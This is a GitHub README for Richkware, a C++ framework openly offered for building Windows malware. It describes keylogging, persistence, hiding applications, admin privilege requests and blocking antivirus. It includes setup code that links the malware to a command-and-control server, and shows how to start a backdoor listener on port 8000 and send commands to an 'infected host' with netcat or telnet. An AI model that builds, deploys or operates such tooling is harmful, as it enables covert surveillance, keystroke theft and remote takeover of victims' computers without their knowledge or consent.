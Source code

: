 # Richkware

[![Build status](https://ci.appveyor.com/api/projects/status/1tn6vedeaq0v27ra?svg=true)](https://ci.appveyor.com/project/richkmeli/richkware)

Framework for building Windows malware, written in C++.

## Description

Richkware is a library of network and OS functions, that you can use to create malware.
The composition of these functions permits the application to assume behaviors referable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

## Related Projects

[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server): Service for the management of hosts in which is present an instance of malware developed using **Richkware** framework.

[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client): Client of **Richkware-Manager-Server**, that it obtains the list of all hosts from the server and it's able to send any kind of commands to them.

![](http://richk.altervista.org/RichkwareDiagram.svg)

## Documentation

|              | EN                          | IT                     |
|--------------|:------------------------------:|:------------------:|
| Presentation | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Slide.pdf)  | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Slide.pdf)     |
| Report       | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Report.pdf) | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Relazione.pdf) |

## Functions

### Network

- **Server** (*network.h*): module for the management of a multi-thread server, that allow to receive commands from Internet([Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client) or console) according to the specific protocol.
    - **Protocol** (*protocol.h*):
        1. **Remotely command execution** (ID 1)
        2. (work in progress)
- **Network** (*network.h*):
    - **RawRequest**: send a request to a server;
    - **UploadInfoToRichkwareManagerServer**: send information to [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: save the application state(encrypted) to:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: install itself permanently in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): check and require administrator privileges;

- **StealthWindow** (*richkware.h*): hide applications;
- **OpenApp** (*richkware.h*): open arbitrary applications;
- **Keylogger** (*richkware.h*): stores in a file all pressed keys;
 - **BlockApps** e **UnBlockApps** (*blockApps.h*): block and unblock applications (antivirus, ...).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): [RC4](https://en.wikipedia.org/wiki/RC4) (default), [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)).
- **Encode and Decode** (*crypto.h*): [Base64](https://en.wikipedia.org/wiki/Base64) (defualt), [Hex](https://en.wikipedia.org/wiki/Hexadecimal#Transfer_encoding).

![](http://richk.altervista.org/RichkwareCryptographyDiagram.svg)

### Other

- **RandMouse** (*richkware.h*): move randomly the mouse cursor;
- **Hibernation** (*richkware.h*): hibernate system.

## Requirements
These are the base requirements to build and use Richkware:

- Make or CMake
- [MinGW](http://www.mingw.org/)

## Get Started
Open main.cpp, and create an instance of Richkware.
### With [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)
If you have deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can initialize the malware as follows:

        int main() {
               Richkware richkware("Richk","DefaultPassword","192.168.99.100", "8080", "associatedUser");
                ...
                return 0;
            }
        
that it gets a secure key from Richkware-Manager-Server and it sets the key as encryption key.
**DefaultPass** is used as temporary encryption key to ensure a secure communication with RMS and if the malware cannot reach the RMS for getting its encryption ket, it will use DefaultPass as encryption key.


### Without [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

Otherwise, if you haven't deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can use: 
         
     Richkware richkware("Richk","richktest");
         
 in this way, it uses "richktest" as encryption key.
     


## Compile

After **main.cpp** implementation, you can compile as follows.

### Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

### Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Preprocessor > Preprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dependencies, add "Ws2_32.lib"

## Examples of usage
In the following example, we call "**server**", a malware developed using Richkware framework and in which it has been enabled the function for creating a server, and "**client**", the creator(Hacker) of the malware that is trying to establish a connection with the infected PC.

### Server-side

#### Remotely Command Execution

Call framework function **StartServer** in the main, it starts server on a port, in the following example is the TCP port 8000. Remember that if a port is already used by another program, you can't use that port, until the program will be stopped.

	int main () {
	    ...
		richkware.network.server.Start("8000");
        ...
	}

### Client-side

#### Connect using [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)
In all systems where the Java Virtual Machine is installed, you can use [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client), otherwise if it's not present you can easily use a terminal.

#### Connect using terminal in Unix systems

In Unix systems, you can use **netcat**, and run the following command:

	nc <serverName> 8000
	
if the server received the request on the open port and it succeeds to create a connection, it responses to the client confirming the establishment of the connection, after that, you can write:
    
    [[1]]COMMAND
    
where *COMMAND* is a command that has to be executed on the infected host where server is running.

#### Connect using terminal in Windows

In Windows, you can use **telnet**, in the same way:

	telnet <serverName> 8000

...
    
    [[1]]COMMAND
    

